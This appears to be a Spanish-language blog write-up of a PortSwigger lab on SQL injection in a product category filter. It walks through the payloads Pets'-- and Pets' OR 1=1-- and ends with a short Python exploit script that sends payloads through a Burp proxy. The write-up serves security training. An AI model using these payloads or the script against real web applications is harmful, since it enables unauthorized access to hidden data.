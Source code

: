 ```yaml
---
title: "01 Write-up: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data"
collection: publications
category: portswigger
permalink: /publications/SQLi/01_SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el filtro de categorías de productos. Para resolver el laboratorio, realizamos un ataque de inyección SQL que hace que la aplicación muestre detalles de todos los productos de cualquier categoría, tanto liberados como no liberados.'
date: 2024-11-30
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection vulnerability in WHERE clause allowing retrieval of hidden data'
---
```


![lab_logo]({{site.url}}/images/SQLi/sqli-1/logo.png)

Lab-Link: <https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data>  
Dificultad: APPRENTICE  

## Descripción de laboratorio

![lab_description]({{site.url}}/images/SQLi/sqli-1/lab_description.png)

## Query

La consulta utilizada por la aplicación se proporciona en la descripción del laboratorio. Supongo que la cadena de categoría se toma directamente del argumento de la URL

```sql
SELECT * FROM products WHERE category = '<PARAM>' AND released = 1
```

## Pasos

### Encontrar un punto de referencia

Para conocer la referencia de los productos liberados, filtro por `Pets`, que muestra 3 entradas. 

### Ignorar la parte liberada de la consulta

Ahora necesito inyectar algo que haga que se ignore la parte 'AND released = 1', por ejemplo inyectando un comentario que ignore todas las partes restantes de la consulta.

Por ejemplo, inyectando `Pets'--` se obtiene esta consulta:

```sql
SELECT * FROM products WHERE category = 'Pets'--' AND released = 1
```

Observe la comilla simple después del `--`, que es añadida por la aplicación. Esto sería un error de sintaxis, pero debido al comentario se ignora y no tenemos que tratar con él.

#### URL encode

La URL debe estar correctamente codificada. Cuando se utiliza un navegador, esto se hará automáticamente por el navegador, pero no se muestra en la barra de URL. Cuando se utiliza el Burp Repeater, la codificación de la URL debe hacerse manualmente con `Ctrl+U`.

![url encode in burp]({{site.url}}/images/SQLi/sqli-1/url_encode.png)

==> Se muestran 4 entradas, por lo que la parte liberada se comenta correctamente.

### Mostrar todos los productos independientemente de su categoría

Para mostrar todos los productos, independientemente de su categoría o estado de liberación, necesito inyectar una cadena que se evalúe como `TRUE` para cada entrada de la tabla. Por ejemplo, la expresión `1=1`.

```sql
Pets' OR 1=1--
```
El resultado es la consulta

```sql
SELECT * FROM products WHERE category = 'Pets' or 1=1 -- ' AND released = 1
```

Que muestra todas las entradas ya que para cada entrada la condición 1=1 permanece verdadera. El laboratorio se actualiza a

![Result]({{site.url}}/images/SQLi/sqli-1/result.png)

```python
import requests
import sys
import urllib3

# Desactiva advertencias de verificación SSL.
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Configuración de proxy para herramientas como Burp Suite.
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'https://127.0.0.1:8080'}

def exploit_sqli(url, payload):
    """
    Prueba una inyección SQL en el parámetro `category` de un endpoint específico.
    """
    uri = '/filter?category='
    r = requests.get(url + uri + payload, verify=False, proxies=proxies)
    # Comprobamos si la respuesta contiene el indicador de éxito "Cat Grib".
    if "Cat Grib" in r.text:
        return True
    else:
        return False

if __name__ == "__main__":
    try:
        # Extrae la URL y el payload de los argumentos de línea de comandos.
        url = sys.argv[1].strip()
        payload = sys.argv[2].strip()
    except IndexError:
        # Muestra el formato de uso si faltan argumentos.
        print("[-] Uso: %s <url> <payload>" % sys.argv[0])
        print('[-] Ejemplo: %s www.example.com "1=1"' % sys.argv[0])
        sys.exit(-1)

    # Llama a la función para intentar la inyección SQL.
    if exploit_sqli(url, payload):
        print("[+] ¡Inyección SQL exitosa!")
    else:
        print("[-] Inyección SQL no exitosa.")

```
